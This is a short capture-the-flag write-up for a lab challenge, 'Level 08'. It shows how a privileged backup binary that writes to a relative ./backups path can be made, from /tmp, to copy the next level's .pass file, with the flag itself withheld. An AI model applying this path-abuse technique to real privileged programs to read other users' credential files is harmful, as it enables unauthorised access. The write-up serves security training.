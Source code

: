 # Level 08

## Initial Context

- One file: `level08`

## Solving the Challenge

The program acts like a backups software.

It will:
- open `./backups/.log` to store the progress logs.
- open `argv[1]` (read)
- open `./backups/ + argv[1]` (write)
- and backup the content

If we try to open the next level's `.pass` file, it complains of not being able to open the corresponding backup file:

```bash
$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Since we cannot create directory in the `level08`'s home, we need to move to `/tmp`.

By re-creating the `./backups` directory and the path of `level09`'s `.pass` in `/tmp` and trying to re-run the program we can get the flag:

```bash
$ cd /tmp
$ mkdir -p ./backups/home/users/level09/
$ /home/users/level08/level08 /home/users/level09/.pass
$ cat backups/home/users/level09/.pass
<flag>
```

